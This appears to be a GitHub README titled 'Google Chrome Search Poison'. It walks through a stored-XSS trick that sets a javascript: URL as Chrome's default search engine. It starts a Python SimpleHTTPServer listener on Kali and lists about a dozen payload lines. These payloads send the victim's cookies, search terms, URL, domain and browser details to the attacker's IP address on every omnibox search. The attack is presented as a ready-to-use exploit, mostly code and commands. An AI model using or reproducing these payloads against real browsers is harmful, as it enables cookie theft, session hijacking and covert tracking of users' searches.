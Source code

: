 Google Chrome Search Poison – Default Search Engine Exploit
##Introduction
In December 2015, I discovered a vulnerability in Google Chrome's default search engines feature whereby a lack of input sanitation allows an attacker to store XSS in the victim's browser. This stored XSS is then executed whenever the victim searches using the omnibox.<br>
In this walkthrough we'll set up a Python SimpleHTTPServer and intercept the victim’s Cookies and search keywords.<br>
<br>
Note: The vulnerability has been reported to the Chromium team but they will not fix the issue.
##Video Demo
<div align="center">
<a href="https://www.youtube.com/watch?v=WoF-LkA6fMk">
<img src="search-poison.jpg" />
</a> 
</div>

The video demonstration involves manipulation of the chrome master-preferences file to infect the user with the malicious search engine. The user is then directed to the attackers apache server, which extracts the search query, cookies and other system information and seamlessly directs them back to their search.<br>

##Walkthrough - Setting up the Listener in Kali
<code>
<div class="code">
root@kali:~$ <com>python -m SimpleHTTPServer 80</com>
</div>
</code>
##Setup on Victim Machine
1. Go into **"Settings"** in Google Chrome<br>
2. Click on **"Manage Search Engines"**<br>
3. Enter your malicious JS and click **"Make Default"**<br>

##Example
<code>
<div class="code">
<com>javascript:window.location='http://192.168.1.182/%s'+escape(document.cookie);</com>
</div>
</code>
Note: 192.168.1.182 is our SimpleHTTPServer.<br>
Now whenever the victim searches using Google Chrome’s Omnibox, the malicious JS will trigger, forwarding you their cookie and search string (%s).<br>
##Other examples
<code>
<div class="code">
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.cookie);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.baseURI);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.domain);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.URL);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(location.host);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appCodeName);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appName);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appVersion);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.platform);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.userAgent);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.platform);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.product);
</div>
</code>

Tags: search-poison
